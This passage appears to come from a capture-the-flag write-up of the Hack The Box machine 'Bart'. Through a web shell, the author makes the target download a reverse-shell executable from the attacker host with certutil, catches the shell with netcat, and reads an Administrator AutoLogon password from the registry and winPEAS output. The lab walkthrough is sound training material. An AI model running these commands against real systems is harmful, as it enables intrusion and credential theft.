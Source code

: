 Upload the payload using `certutil` :

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ curl http://internal-01.bart.htb/log/cmd.php?cmd=certutil.exe%20-urlcache%20-split%20-f%20http://10.10.14.3:8000/rshell_9000.exe
```

Run the uploaded payload :

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ curl http://internal-01.bart.htb/log/cmd.php?cmd=.\rshell_9000.exe
```

Then I can open a shell as `iusr`.

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.81] 50649
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\internal-01\log>whoami
whoami
nt authority\iusr
```



# Shell as `Administrator`

### Enumeration

I ran `winPEAS` to enumerate the target.

```yaml
����������͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  DESKTOP-7I3S68E
    DefaultUserName               :  Administrator
    DefaultPassword               :  3130438f31186fbaf962f407711faddb
```

I can find the same by retrieving registry.

```bash
C:\inetpub\wwwroot\internal-01\log>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ    DESKTOP-7I3S68E
    DefaultUserName    REG_SZ    Administrator
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
```